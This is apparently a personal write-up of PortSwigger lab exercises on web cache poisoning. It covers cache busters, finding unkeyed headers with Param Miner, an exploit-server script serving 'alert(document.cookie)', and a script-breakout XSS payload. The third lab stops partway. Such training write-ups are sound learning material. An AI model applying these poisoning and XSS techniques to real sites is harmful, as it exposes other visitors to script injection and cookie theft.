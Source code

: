 ```yaml
---
title: Web Cache Poisoning part-1
date: 2025-10-02 12:00:00 +0530
categories: [portswigger]
tags: [web cache poisoning]
---
```

# Web Cache Poisoning 

### 1.Web cache poisoning with an unkeyed header 

First we add a cache buster so that we wouldnt effect any live users in this case we could inject into query parameter

```
GET /?cb=something1
```

Then we should identify if it has cache oracle or not and we could confirm it by 
these headers in response when we change cache buster
```
Cache-Control:max-age=30
Age: 30
X-Cache: hit
```
Now we have to send it to param miner to get any unkeyed headers.so that we can poison cached data and we identified one

```
Identified parameter on 0a2400b6034a6efc8043038000570045.web-security-academy.net: x-forwarded-host
```
Now we have to observe whether our input in x-fowarded-host is used or not in response and it is reflected in the following script tag

```
<script type="text/javascript" src="//exploit-0abf00a903856e8a800c025601140015.exploit-server.net/resources/js/tracking.js"></script>
```
So we change File location of exploit server to this '/resources/js/tracking.js' and body with 'alert(document.cookie);' as payload then we remove cache buster and directly inject into the main page and we get 

![img-description](/assets/assets/img/cache1.png)


### 2.Web cache poisoning with an unkeyed cookie

First we add a cache buster so that we wouldnt effect any live users in this case we could inject into query parameter

```
GET /?cb=something1
```
Then we should identify if it has cache oracle or not and we could confirm it by 
these headers in response when we change cache buster
```
Cache-Control:max-age=30
Age: 30
X-Cache: hit
```
Now we have to send it to param miner to get any unkeyed headers.so that we can poison cached data and we identified one
```
Identified parameter on 0a5b008504de744181685cf0002f0077.web-security-academy.net:
fehost,cookie
```
After finding parameters let's test whether it is reflecting and it is reflected in response.so i designed a payload the sequence
```
"}</script><script>alert(1)</script>{"
```
we got xss
![img-description](/assets/assets/img/cache2.png>)
### 3.Web cache poisoning with multiple headers

Here we can add cache buster directly to header

Now my cache buster is working and giving responses in with cache misses when i am adding different cache busters

sending it to param miner giving following header
```
x-forwarded-scheme
```
If any value other than https is given to this it is giving a 302 redirect.

Param miner works by change of response when testing header is sent and when it is not.As we are getting a redirect we could find other headers when x-forwarded-scheme is used

so again sending this request to param miner giving 
```
x-forwarded-host
```
